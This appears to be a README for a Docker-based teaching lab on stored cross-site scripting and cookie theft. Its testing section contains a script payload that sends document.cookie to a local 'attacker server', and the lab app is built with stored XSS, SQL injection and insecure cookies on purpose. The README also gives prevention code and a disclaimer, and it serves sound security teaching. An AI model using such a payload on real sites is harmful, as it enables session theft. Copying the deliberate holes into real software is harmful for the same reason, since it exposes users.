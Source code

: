 # XSS Cookie Stealing Lab

A educational security lab demonstrating Cross-Site Scripting (XSS) vulnerability and cookie stealing. 
**For educational purposes only - do not use on real websites!**

## Prerequisites

- Docker
- Docker Compose
- Git (optional)

## Setup Instructions

1. Create a new directory for the project:
   ```bash
   mkdir xss-lab
   cd xss-lab
   ```

2. Clone the repository or create the files as shown in the project structure.

3. Build and start the containers:
   ```bash
   docker-compose up --build
   ```

4. Wait about 30 seconds for MySQL to initialize fully.

5. Access the applications:
   - Vulnerable App: http://localhost:8080
   - Attacker's Log: http://localhost:8081/logs.php

## Testing the XSS Vulnerability

1. Open the vulnerable application (http://localhost:8080)

2. Add a comment with the following XSS payload:
   ```html
   <script>
   new Image().src = "http://localhost:8081/steal.php?cookie=" + encodeURIComponent(document.cookie);
   </script>
   ```

3. The comment will be stored and the script will execute whenever anyone views the page

4. View stolen cookies at http://localhost:8081/logs.php

## Troubleshooting

If you encounter database connection issues:

1. Stop all containers:
   ```bash
   docker-compose down
   ```

2. Remove existing volumes:
   ```bash
   docker-compose down -v
   ```

3. Rebuild and start:
   ```bash
   docker-compose up --build
   ```

## Project Structure
```
xss-lab/
├── docker-compose.yml
├── README.md
├── vulnerable-app/
│   ├── Dockerfile
│   └── src/
│       ├── index.php
│       ├── comments.php
│       ├── style.css
│       └── db.php
└── attacker-server/
    ├── Dockerfile
    └── src/
        ├── steal.php
        └── logs.php
```

## How It Works

1. The vulnerable application stores user comments without sanitizing input
2. When a malicious script is posted as a comment, it gets stored in the database
3. When any user views the comments page, their browser executes the stored script
4. The script sends the user's cookies to the attacker server
5. The attacker server logs these stolen cookies

## Security Vulnerabilities Demonstrated

This lab demonstrates several common web vulnerabilities:

1. **Stored XSS**: User input is stored without sanitization
2. **SQL Injection**: Direct concatenation of user input in SQL queries
3. **Insecure Cookies**: Cookies set without HttpOnly flag
4. **Missing CSRF Protection**: No CSRF tokens implemented

## Prevention Measures

In a real application, you should:

1. Sanitize user input:
```php
$content = htmlspecialchars($_POST['content'], ENT_QUOTES, 'UTF-8');
```

2. Use prepared statements:
```php
$stmt = $mysqli->prepare("INSERT INTO comments (author, content) VALUES (?, ?)");
$stmt->bind_param("ss", $author, $content);
$stmt->execute();
```

3. Set secure cookie flags:
```php
setcookie('user_session', $value, [
    'expires' => time() + 3600,
    'path' => '/',
    'secure' => true,
    'httponly' => true,
    'samesite' => 'Strict'
]);
```

4. Implement Content Security Policy (CSP):
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
```

## Common Issues

1. **Database Connection Fails**
   - Ensure all containers are running: `docker ps`
   - Check logs: `docker-compose logs db`
   - Try restarting with clean volumes (see Troubleshooting section)

2. **Pages Not Loading**
   - Verify all ports are available (8080 and 8081)
   - Check container logs: `docker-compose logs vulnerable-app`

3. **Cookie Stealing Not Working**
   - Ensure both applications are accessible
   - Check browser console for JavaScript errors
   - Verify the attacker server has write permissions for logs

## Legal Disclaimer

This project is for educational purposes only. Using these techniques against real websites without explicit permission is illegal and unethical. Always:

- Practice in controlled environments only
- Get written permission before testing security
- Follow responsible disclosure practices
- Respect privacy and data protection laws

## License

This project is released under the MIT License. Use it responsibly. 